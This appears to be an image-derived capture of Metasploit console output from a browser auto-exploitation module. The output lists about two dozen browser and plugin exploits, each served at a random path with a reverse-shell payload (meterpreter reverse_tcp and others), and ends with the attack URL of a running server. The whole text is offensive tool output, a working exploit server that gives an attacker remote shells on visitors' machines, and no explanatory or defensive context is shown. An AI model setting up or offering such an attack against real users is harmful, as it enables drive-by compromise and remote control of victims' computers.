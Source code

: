 ``` Metasploit Ready
 19     Great      adobe_flash_hacking_team_uaf               /ucyzHgvgJocYE  windows/meterpreter/reverse_tcp on 4444
 20     Good       wellintech_kingscada_kxclientdownload      /RhGnw          windows/meterpreter/reverse_tcp on 4444
 21     Good       ms14_064_ole_code_execution                /BYViGVTFR      windows/meterpreter/reverse_tcp on 4444
 22     Good       adobe_flash_uncompress_zlib_uninitialized  /zPPnGjCqvfEu   windows/meterpreter/reverse_tcp on 4444
 23     Normal     x360_video_player_set_text_bof             /QUEUEsGmPC     windows/meterpreter/reverse_tcp on 4444
 24     Normal     ms14_012_textrange                         /xcHkHGi        windows/meterpreter/reverse_tcp on 4444
 25     Normal     ms14_012_cmarkup_uaf                       /CVlxqcePlm     windows/meterpreter/reverse_tcp on 4444
 26     Normal     ms13_090_cardspacesigninhelper             /bOVjeGeMGy     windows/meterpreter/reverse_tcp on 4444
 27     Normal     ms13_059_cflatmarkuppointer                /cUZyoGSZXR     windows/meterpreter/reverse_tcp on 4444
 28     Normal     ms13_037_svg_dashstyle                     /HatbZJiuK      windows/meterpreter/reverse_tcp on 4444
 29     Normal     ms13_022_silverlight_script_object         /VmSSgltTEFW    windows/meterpreter/reverse_tcp on 4444
 30     Normal     ie_setmousecapture_uaf                     /CRKymixRzq     windows/meterpreter/reverse_tcp on 4444
 31     Normal     firefox_smil_uaf                           /kvtHw          windows/meterpreter/reverse_tcp on 4444
 32     Normal     aladdin_choosefilepath_bof                 /lQyBmenlxSZ    windows/meterpreter/reverse_tcp on 4444
 33     Normal     advantech_webaccess_dvs_getcolor           /KwTTus         windows/meterpreter/reverse_tcp on 4444
 34     Normal     adobe_toolbutton                           /kXRGRMnVZ      windows/meterpreter/reverse_tcp on 4444
 35     Normal     adobe_flash_regex_value                    /jAwX           windows/meterpreter/reverse_tcp on 4444
 36     Normal     adobe_flash_pcre                           /FiQmsYdHyy     windows/meterpreter/reverse_tcp on 4444
 37     Normal     adobe_flash_filters_type_confusion         /SdWmxcJNqUP    windows/meterpreter/reverse_tcp on 4444
 38     Normal     adobe_flash_avm2                           /adBDQu         windows/meterpreter/reverse_tcp on 4444
 39     Manual     ie_unsafe_scripting                        /SUrJ           windows/meterpreter/reverse_tcp on 4444
 40     Manual     safari_user_assisted_download_launch       /rmhIXNy        osx/x86/shell_reverse_tcp on 4447
 41     Manual     safari_user_assisted_applescript_exec      /WcAmMpEFePWB   cmd/unix/reverse on 4446
 42     Manual     firefox_proxy_prototype                    /XcmRo          firefox/shell_reverse_tcp on 4442
 43     Manual     firefox_pdfjs_privilege_escalation         /mRDkgKpYJNy    firefox/shell_reverse_tcp on 4442

[+] Please use the following URL for the browser attack:
[+] BrowserAutoPwn URL: http://192.168.1.80:8080/
[*] Server started.

```
